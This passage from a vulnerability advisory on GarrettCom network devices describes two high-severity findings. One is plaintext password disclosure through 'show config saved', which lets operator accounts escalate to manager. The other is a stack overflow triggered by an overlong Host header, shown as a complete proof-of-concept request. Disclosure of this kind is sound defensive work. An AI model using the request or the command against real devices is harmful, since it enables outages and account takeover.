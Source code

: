 
    HTTP/1.0 200 OK
    Server: GoAhead-Webs
    Content-Type: text/html
    
    <?xml version='1.0' encoding='UTF-8'?><data val="users"><changed val="yes" />
    <helpfile val="user_accounts.html" />
    <user uid="operator" access="Operator" />
    <user uid="manager" access="Manager" />
    <user uid="gibson" access="Manager" />
    </data>

GarrettCom-02 - Secrets Accessible to All Users
-----------------------------------------------

Severity: **High**

Unprivileged but authenticated users ("operator" level access) can view the
plaintext passwords of all users configured on the system, allowing them to
escalate privileges to "manager" level.  While the default "show config" masks
the passwords, executing "show config saved" includes the plaintext passwords.
The value of the "secrets" setting does not affect this.

    6K>show config group=user saved
    ...
    #User Management#
    user
    add user=gibson level=2 pass=god
    Exit
    ...

GarrettCom-03 - Stack Based Buffer Overflow in HTTP Server
----------------------------------------------------------

Severity: **High**

When rendering the /gc/flash.php page, the server performs URI encoding of the
Host header into a fixed-length buffer on the stack.  This decoding appears
unbounded and can lead to memory corruption, possibly including remote code
execution.  Sending garbage data appears to hang the webserver thread after
responding to the present request.  Requests with Host headers longer than 220
characters trigger the observed behavior.

    GET /gc/flash.php HTTP/1.1
    Host: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    Connection: close
    Cache-Control: max-age=0
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.28 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Encoding: gzip, deflate, sdch, br
    Accept-Language: en-US,en;q=0.8
